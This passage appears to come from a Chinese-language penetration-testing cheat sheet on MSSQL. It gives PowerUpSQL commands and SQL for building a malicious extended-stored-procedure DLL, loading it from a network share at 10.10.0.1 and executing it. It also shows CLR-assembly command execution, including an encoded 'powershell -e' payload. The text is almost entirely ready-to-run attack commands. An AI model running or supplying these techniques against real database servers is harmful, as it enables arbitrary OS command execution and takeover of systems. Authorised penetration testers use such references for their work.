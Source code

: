 ### 添加扩展存储过程并列出扩展存储过程

```ps1
# 创建恶意DLL
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

# 加载DLL并调用xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"

# 列出现有的
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

* 使用[xp_evil_template.cpp](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)构建DLL

* 加载DLL

  ```sql
  -- 也可以从UNC路径或Webdav加载
  sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
  EXEC xp_calc
  sp_dropextendedproc 'xp_calc'
  ```

## CLR程序集

先决条件：

* sysadmin权限
* CREATE ASSEMBLY权限（或）
* ALTER ASSEMBLY权限（或）

执行以**服务帐户**的权限进行。

### 使用CLR程序集执行命令

```ps1
# 为DLL创建C#代码，DLL和SQL查询以DLL的十六进制字符串形式
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\user\Desktop

# 使用CLR程序集执行命令
Invoke-SQLOSCmdCLR -Username sa -Password <password> -Instance <instance> -Command "whoami" -Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose

# 列出使用CLR添加的所有存储过程
Get-SQLStoredProcedureCLR -Instance <instance> -Verbose
```
